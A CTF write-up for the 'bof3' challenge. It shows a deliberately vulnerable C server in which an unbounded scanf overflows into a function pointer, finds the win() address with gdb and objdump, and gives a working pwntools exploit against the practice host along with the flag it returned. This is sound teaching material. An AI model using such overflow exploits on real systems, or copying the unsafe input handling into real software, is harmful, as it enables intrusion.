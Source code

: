Let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>
#include "pwnable_harness.h"

void win(void) {
	char flag[64];
	
	FILE* fp = fopen("flag.txt", "r");
	if(!fp) {
		puts("error, contact admin");
		exit(0);
	}
	
	fgets(flag, sizeof(flag), fp);
	fclose(fp);
	puts(flag);
}

void lose(void) {
	puts("you suck!\n");
	fflush(stdout);
	exit(0);
}

void handle_connection(int sock) {
	void (*fp)(); 
	char bof[64];
	
	fp = &lose;
	
	scanf("%s",bof);
	fp();
}


int main(int argc, char** argv) {
	/* Defaults: Run on port 9002 for 30 seconds as user "ctf_bof3" in a chroot */
	server_options opts = {
		.user = "ctf_bof3",
		.chrooted = true,
		.port = 9002,
		.time_limit_seconds = 30
	};
	
	return server_main(argc, argv, opts, &handle_connection);
}
```

Looking at this code, I see the same vulnerabillity that bof2 had (and when we run it, it has the same functionallity from a user standpoint). The difference here is that there isn't an if then statement, but a variable executed as a function.
We can override that variable so it will execute a function that we want, like win(). I'm going to go out on a limb here and say that since this exploit is so similar to bof2, that the distance is probably going to be 64.
If that is true, then all we will need besides that is the address of the win function. We can get that by either using gdb...


```
guyinatuxedo@tux:/Hackery/ctf/ucf/pwn/bof3$ gdb ./bof3
gdb-peda$ print win
$1 = {<text variable, no debug info>} 0x80486eb <win>
```

Or we could use objdect dump (t flag means symbols)

```
guyinatuxedo@tux:/Hackery/ctf/ucf/pwn/bof3$ objdump -t ./bof3 | grep win
080486eb g     F .text	00000072              win
```

Either way, we get the address of the win() function which is "0x80486eb". Knowing this we can now code an exploit in python.

```
#Import pwntools
from pwn import *

#Establish the remote connection
conn = remote('ctf.hackucf.org', 9002)

#Make the payload, make sure to have the hex address in little endian
exploit = "0"*64 + "\xeb\x86\x04\x08"

#Send the payload
conn.sendline(exploit)

#Print the flag
print conn.recvline()
```

And now to run the exploit.

```
guyinatuxedo@tux:/Hackery/ctf/ucf/pwn/bof3$ python exploit.py 
[+] Opening connection to ctf.hackucf.org on port 9002: Done
flag{time_to_get_out_of_the_kiddie_pool}

[*] Closed connection to ctf.hackucf.org port 9002
```

And just like that, we pwned the elf...

